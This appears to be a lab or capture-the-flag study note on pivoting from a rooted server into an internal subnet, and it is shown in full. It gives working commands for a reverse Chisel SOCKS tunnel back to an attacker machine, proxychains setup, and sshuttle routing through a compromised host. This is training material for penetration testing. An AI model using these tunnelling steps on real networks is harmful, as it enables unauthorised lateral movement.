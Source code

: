 Now that you have gained root access to L-SRV01, you need to identify where to go next. You know there are no other external machines in scope, so you decide to move into the internal network. To gain access to the internal subnet, you need to perform what is known as pivoting.

In a well-maintained network, often referred to as a "Segmented Network," there are specific rules in place preventing users from accessing certain parts of the Internal LAN (ex. The Workstation Subnet should not be able to access the Server Subnet). We will need to "pivot" from an already compromised server using a SOCKs server or other means like port forwarding to access different network resources.  

There are several tools outlined below that can help us in pivoting.  

- sshuttle
- Chisel
- Ligolo
- Metasploit autoroute

In this task, we will be focusing on both Chisel and sshuttle, each offering unique ways to approach pivoting.  

The first tool that we will be looking at is Chisel. From the Chisel GitHub, "Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable, including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."  

From the Chisel GitHub, below is an overview of chisel architecture.

![[Task 23 - Digging a tunnel to nowhere-20240926150119258.webp]]

To begin using Chisel, we must first download the tool. If you utilize the stable release or docker, you will not need to download any dependencies. If you compile from source, you will need to install a few dependencies outlined on their GitHub. There are three common ways of obtaining the tool, outlined below.  

- Stable release: [](https://github.com/jpillora/chisel/releases)[https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
- Docker: `docker run --rm -it jpillora/chisel --help`
- Source: `go get -v [github.com/jpillora/chisel](<http://github.com/jpillora/chisel>)`

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.  

To create a SOCKs server with Chisel, you will only need two commands ran on the target and the attacking machine, outlined below.  

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Now that we have a SOCKs server set up, we need to interpret and manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the proxy in the command line. To add the SOCKs server to proxychains, you will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![[Task 23 - Digging a tunnel to nowhere-20240926150205470.webp]]

You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route through the proxy with proxychains. An example usage can be found below.  

Example usage: `proxychains curl http://<IP>`


---

The second tool we will be looking at is sshuttle. Sshuttle is unique in its approaches to pivoting because all of its techniques are done remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are that it will only work if there is an ssh server running on the machine, and it will not work on Windows hosts. You can download sshuttle from GitHub, [https://github.com/sshuttle/sshuttle](https://github.com/sshuttle/sshuttle)  

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this parameter, you will specify the user and target like you would for a standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of syntax below.  

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`

For more information about sshuttle and how to use it, check out the documentation, [https://sshuttle.readthedocs.io/en/stable/overview.html](https://sshuttle.readthedocs.io/en/stable/overview.html).


---

# Your job

Before you can pivot, you do need to know where you are in the network and where you are trying to get to.
Creating a Network Diagram is the best way to do it.


![[Diagram.svg]]




**Next step:** [[Task 24 - Command your Foes and Control your Friends]]